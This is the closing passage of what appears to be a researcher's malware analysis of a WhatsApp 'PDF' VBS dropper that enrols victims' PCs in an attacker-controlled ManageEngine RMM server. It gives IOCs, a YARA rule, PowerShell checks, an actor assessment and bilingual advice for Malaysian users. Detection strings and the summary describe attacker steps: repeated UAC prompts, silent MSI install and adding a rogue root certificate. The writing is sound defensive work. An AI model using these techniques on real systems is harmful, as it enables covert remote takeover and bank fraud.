| **Folder** | `%TEMP%\zoho\` (`z_l<digits>.vbs`, `setup.zip`, `install.log`, `agent.log`, `done.flag`) |
| **Install path** | `C:\Program Files (x86)\ManageEngine\UEMS_Agent\` on a PC your IT doesn't manage |
| **Registry** | `HKLM\SOFTWARE\(WOW6432Node\)AdventNet\DesktopCentral\DCAgent\` with `MSIPackageDirectory = %TEMP%\zoho\` |
| **Service** | `ManageEngine UEMS - Agent` |
| **Process chain** | `wscript.exe` spawning `msiexec.exe`, `certutil.exe -addstore -f Root` or `sc.exe` |
| **Strings** | `z11b-0253`, `vh_`, `z11_`, `187f.zip` |

### YARA

    rule VBS_Dropper_ManageEngine_UEMS_RMM_Abuse
    {
        meta:
            description = "VBS dropper installing ManageEngine UEMS agent registered to attacker server (WhatsApp 'PDF_*.vbs' lure)"
            author = "171k"
            date = "2026-11-24"
        strings:
            $c2a = "gooddowning.com" ascii nocase
            $c2b = "beacon.php?u=vh_" ascii
            $tag = "z11b-0253" ascii
            $b1  = "\"z11_uac\"" ascii
            $m1  = "UEMSAgent.msi" ascii
            $m2  = "DCAgentServerInfo.json" ascii
            $m3  = "dcagentregister.exe" ascii
            $m4  = "AdventNet\\DesktopCentral\\DCAgent" ascii
            $e1  = "\"runas\"" ascii
            $e2  = "/elev" ascii
            $e3  = "certutil -addstore -f Root" ascii
            $e4  = "ENABLESILENT=yes" ascii
        condition:
            filesize < 200KB and
            ( any of ($c2*) or $tag or $b1 or
              ( 3 of ($m*) and 2 of ($e*) ) )
    }

Matches both samples, **0 false positives** on my test set. The last condition is behaviour-based, so it should survive a domain or build-tag change.

### Quick check for a suspect PC (PowerShell)

    Get-ItemProperty 'HKLM:\SOFTWARE\WOW6432Node\AdventNet\DesktopCentral\DCAgent\ServerInfo' -ErrorAction SilentlyContinue | Select DCServerIPAddress,DCServerName
    Get-ChildItem Cert:\LocalMachine\Root | ? { $_.Subject -like '*ManageEngineCA*' } | Select Subject,Thumbprint,NotBefore
    Get-Service 'ManageEngine UEMS - Agent' -ErrorAction SilentlyContinue
    Test-Path "$env:TEMP\zoho"

If `DCServerIPAddress` is `143.92.40.187` or `DCServerName` is `WIN-AO1OV9H51J2`, that PC is compromised.

---

## ix. Threat Actor Assessment

Everything points to a **Chinese-speaking, financially motivated scam operation** targeting Asia-Pacific users (Malaysia included) through messaging apps:

* HK/CN registrant, BaoTa panel, Hong Kong VPS on a Spamhaus DROP range
* C2 console set to the China region (`manageengine.cn` support, +86 number)
* Simplified-Chinese "客服ID" builder comments in related droppers
* Related packages hosted on Alibaba Cloud OSS and Volcengine TOS
* Hands-on account and bank takeover via legitimate RMM

The techniques overlap with public reporting on Chinese-speaking groups abusing RMM tools (often called "Silver Fox / 银狐"), but I am **not** attributing this to a named group. Confidence: moderate.

---

## x. Summary Table

| **Category** | **Finding** |
|---|---|
| **What is it?** | Trojan dropper that installs a legit RMM agent registered to the attacker = remote access |
| **Ransomware?** | No |
| **Infostealer?** | Not built-in. Stealing is done manually through remote access |
| **Delivery** | WhatsApp, `PDF_XXXXXX_<timestamp>.zip` containing a `.vbs` |
| **Privilege trick** | UAC prompt repeated up to 100× until the victim clicks Yes |
| **Payload** | Genuine Zoho-signed ManageEngine Endpoint Central agent |
| **C2** | `143.92.40[.]187:8383` / `143.92.40[.]224`, live |
| **Payload host** | `gooddowning[.]com`, Cloudflare-fronted, registered 6 days before use |
| **Scale** | 24+ sibling lures since September, 40+ DLL loaders, ~3,300 enrolments on the C2 |
| **Known before?** | No, not on VirusTotal or abuse.ch |
| **Detection** | 2 YARA rules, rogue root-CA fingerprints, registry and service IOCs |

Disclaimer: _Analysis was conducted in an isolated, snapshotted REMnux VM. The samples were never executed; stage 2 was retrieved and the infrastructure was observed live. No access to the attacker's console was attempted._

---

## My Advice to Dear Malaysian

i will mix english and malay in this section :3

## 1. A PDF never asks for admin.

A real PDF opens in your browser or PDF reader. It will **never** pop up a Windows "Do you want to allow this app to make changes to your device?" box, and definitely not again and again. If that happens after opening a "document", click **No**, close everything and disconnect from the internet.

PDF yang betul tak akan minta kebenaran "admin". Kalau lepas buka "dokumen" tiba-tiba keluar kotak Windows "Do you want to allow this app to make changes?", berulang-ulang pula tu, tekan **No**, tutup semua dan putuskan internet. Itu bukan PDF, itu scammer nak masuk PC anda.

## 2. Turn on file extensions. Don't trust the name.

`PDF_ATKLHR.zip` is not a PDF. Neither is `something.pdf.vbs`. In File Explorer, open the **View** menu, choose **Show** and tick **File name extensions** so you can see what a file really is. Anything ending in `.vbs`, `.js`, `.exe`, `.bat`, `.iso` or `.vhdx` that someone sent you on WhatsApp: don't open it.

Nama fail `PDF_...` tak semestinya PDF. Dalam File Explorer, buka menu **View**, pilih **Show** dan tandakan **File name extensions**. Kalau fail dari WhatsApp berakhir dengan `.vbs`, `.js`, `.exe`, `.bat`, `.iso` atau `.vhdx`, jangan buka. Walaupun yang hantar tu kawan atau saudara sendiri, sebab mungkin akaun mereka dah kena curi.

## 3. Lock down your WhatsApp.

On your phone, open **Settings**, go to **Linked devices** and log out anything you don't recognise. Then in **Settings**, **Account**, turn on **Two-step verification** with a PIN and email. **Never** forward a 6-digit WhatsApp code to anyone, even a friend who says they sent it by mistake.

Dalam telefon, buka **Settings**, pergi ke **Linked devices** dan log keluar peranti yang anda tak kenal. Hidupkan **Two-step verification** (PIN + emel). **Jangan sesekali** bagi kod 6 digit WhatsApp kepada sesiapa, walaupun "kawan" kata tersalah hantar.

## 4. Already clicked? Act fast.

Disconnect the PC from the internet. Uninstall **ManageEngine UEMS Agent** if you or your company never installed it, delete `%TEMP%\zoho` and remove the "ManageEngineCA" certificates from `certlm.msc`. Honestly, reinstalling Windows is the safest. Then, **from another clean device**, change your email, banking and social media passwords and call your bank. In Malaysia, report to **NSRC 997** (if money is involved) and **MyCERT / Cyber999**.

Dah terbuka? Cabut internet PC tu dulu. Buang **ManageEngine UEMS Agent** kalau anda atau syarikat tak pernah pasang, padam folder `%TEMP%\zoho` dan buang sijil "ManageEngineCA" dalam `certlm.msc`. Paling selamat, install semula Windows. Lepas tu, guna **peranti lain yang bersih**, tukar kata laluan emel, bank dan media sosial, kemudian hubungi bank anda. Lapor kepada **NSRC 997** kalau melibatkan duit dan kepada **MyCERT / Cyber999**.

## 5. Watch over your elders.

This kind of lure ("bank statement", "rental agreement", "document from the office") works best on people who aren't comfortable with tech. Show your parents this post, or at least tell them: **don't open files on WhatsApp that you weren't expecting, and call the person first.**

Umpan macam "penyata bank" atau "Dokumen Perjanjian Sewa" paling berkesan pada mereka yang kurang biasa dengan teknologi. Tunjuk post ni pada mak ayah, atau sekurang-kurangnya pesan: **jangan buka fail dalam WhatsApp yang tak dijangka, telefon dulu orang yang hantar.**

That is all from me, stay safe everyone! <3 🦆
